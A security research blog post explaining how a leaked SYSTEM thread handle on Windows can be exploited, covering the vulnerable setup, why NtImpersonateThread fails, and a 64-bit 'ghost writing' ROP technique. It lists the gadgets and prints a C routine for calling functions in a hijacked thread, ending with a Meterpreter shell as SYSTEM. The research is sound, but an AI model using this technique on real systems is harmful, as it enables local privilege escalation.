 # Whoops… I dropped my SYSTEM thread HANDLE

- [test](/test/test.html)

I recently came across an interesting finding from [PrivescCheck](https://github.com/itm4n/PrivescCheck), the tool reported an exploitable leaked thread handle. This is when a privileged process leaks a handle (in this case a thread handle) into an unprivileged process, effectively allowing the unprivileged user to gain access to the privileged handle. These must be manually investigated and while mine was unfortunately a false positive, I still wanted to understand how one would exploit this vulnerability.

## Recreating the Vulnerability

You might be wondering how this happens? Well if you look at the [CreateProcessA](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa) documentation, you will see:

> bInheritHandles - If this parameter is TRUE, each inheritable handle in the calling process is inherited by the new process.

So if a SYSTEM service created a process inside the user's desktop with [CreateProcessAsUserA](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera), and set `bInheritHandles` to TRUE, all inheritable handles within the SYSTEM process are now also available inside the user process.

I recreated this exact setup with <https://github.com/Acebond/LeakyService>. This service will pop-up a cmd.exe inside the user's desktop with a leaked SYSTEM thread handle.

## Exploitation the Wrong Way

The [exploiting-leaked-process-and-thread-handles](https://dronesec.pw/blog/exploiting-leaked-process-and-thread-handles/) blog says that this can be exploited with `NtImpersonateThread`. The idea is that the low privileged user can impersonate the thread token, to gain code execution with a SYSTEM thread token.

![suspicious dog](/assets/img/2024-10-10/suspicious_dog.jpg)

While the blog mentioned above is excellent, I don't believe it and everyone who says this can PoC \|\| GTFO. An example of what they _think_ can be done is here: <https://github.com/Acebond/NtImpersonateThreadMethod>. This method fails, and `NtImpersonateThread` only creates a thread running with an [impersonation level](https://learn.microsoft.com/en-us/windows/win32/secauthz/impersonation-levels) of `SecurityIdentification`. To work successfully, the attack requires `SeImpersonatePrivilege` privilege, which no low privileged user should ever had, otherwise they would hardly be low privileged. If the low privileged user did have `SeImpersonatePrivilege`, this would work, and the newly created thread would be running with a SYSTEM token with an impersonation level of `SecurityImpersonation`.

## Exploitation the Right Way

I couldn't find any other way to exploit this other than doing ROP with `SetThreadContext`, `GetThreadContext`, `SuspendThread`, and `ResumeThread`.

The Internet seems to call this “ghost writing” since no process level manipulation such as `ReadProcessMemory`, `WriteProcessMemory`, and `CreateRemoteThread` are performed, because, well, we can't - we only have access to the thread, not the process.

I based my PoC heavily on <https://github.com/fern89/ghostwriting-2>. This was about the best PoC for ghost writing I could find, except it was only for 32bit.

The ROP requires 3 gadgets:

1. A `ret` gadget. This pops an address off the stack and jumps to that address. We use it to execute function after setting up the parameters.
2. A `jmp $ gadget`. This jumps backward by 2 bytes and causes `rip` to jump back to itself, creating an infinite loop. We use it to stop the thread from executing past our push gadget and into the unknown.
3. A `push rdx; call rax gadget`. This will push `rdx` onto the stack, a value we control, and then be used to call `rax` which will hold the address of our `jmp $` infinite loop gadget. We use it to push data to the stack, and effectively halt the thread from doing anything meaningful.

The 3rd gadget could be anything like:

```plaintext
push reg1; call reg2
push reg1; jmp reg2
push reg1; push reg2; ret
mov [reg1]; ret
mov [reg1]; call reg2
mov [reg1]; jmp reg2
```

With these gadgets, and a **VERY** good (nobody seems to talk about the shadow space except for <https://retroscience.net/x64-assembly.html>, thank you) understanding of the Windows 64bit calling convention, we can execute a function in the remote thread like so:

```c
DWORD64 CallFuncRemote(HANDLE hThread, Gadgets gadgets, DWORD64 funcAddr, BOOL returnVal, const uint64_t count, const DWORD64 parameters[]) {

    // 1. Check/Fix Stack alignment
    CONTEXT ctx = { .ContextFlags = CONTEXT_FULL };

    SuspendThread(hThread);
    GetThreadContext(hThread, &ctx);

    int isStackAlignmentGood = ((ctx.Rsp + 0x08) == ((ctx.Rsp + 0x08) & ~0x0F));
    int isEvenPUSHParameters = ((count <= 4) || (count % 2 == 0));

    ResumeThread(hThread);

    if (isStackAlignmentGood ^ isEvenPUSHParameters) {
        PushData(hThread, gadgets, 0x00);
    }

    // 2. PUSH function parameters
    for (uint64_t i = count; i > 4; i--) {
        PushData(hThread, gadgets, parameters[i-1]);
    }

    // 3. PUSH shadow space if required
    if (count > 4) {
        PushData(hThread, gadgets, 0x00);
        PushData(hThread, gadgets, 0x00);
        PushData(hThread, gadgets, 0x00);
        PushData(hThread, gadgets, 0x00);
    }

    // 4. PUSH jmps save return pointer
    PushData(hThread, gadgets, gadgets.jmps);

    // 5. PUSH function to call address
    PushData(hThread, gadgets, funcAddr);

    // 6. Execute with ret gadget
    Slay(hThread, gadgets, 
        (count > 0 ? parameters[0] : 0),
        (count > 1 ? parameters[1] : 0),
        (count > 2 ? parameters[2] : 0),
        (count > 3 ? parameters[3] : 0)
    );

    // 7. Ensure the thread _did_ something
    WaitUnblock(hThread);

    // 8. Get return value if required
    return (returnVal ? GetReturnValue(hThread, gadgets) : 0);
}
```
Full code here: <https://github.com/Acebond/GhostWrite64>

We use this to `VirtualAlloc` some memory in the privileged process, write some shellcode to that memory with a named pipe, and then call `CreateThread` to execute the shellcode, and lastly, restore the hijacked thread back to whatever it was doing. The full PoC is on [GitHub](https://github.com/Acebond/GhostWrite64) and has some cool tricks like figuring out if the target thread has been scheduled on the CPU yet, and how to determine if we need to realign the stack.

### PoC \|\| GTFO

In the screenshot below, LeakyService is running, and will spawn a cmd.exe as the lowpriv user. The cmd.exe (PID 9060 in this example) has a leaked thread handle to the LeakyService.exe which is running as SYSTEM.

![System Informer showing the leaked handle](/assets/img/2024-10-10/process.png)

To exploit this, I ran the GhostWrite PoC inside the cmd.exe (you'd otherwise have to `OpenProcess` and `DuplicateHandle`); this causes the leaked handle to leak again from cmd.exe into GhostWrite.exe, because cmd creates process with inherit handles set to TRUE.

![PoC getting a Meterpreter shell](/assets/img/2024-10-10/poc.png)

GhostWrite then hijacks the SYSTEM thread using the leaked handle and the ROP method described above, creates its own thread inside the SYSTEM process to run a Meterpreter shellcode, and seamlessly restores the original thread execution. Easy-peasy.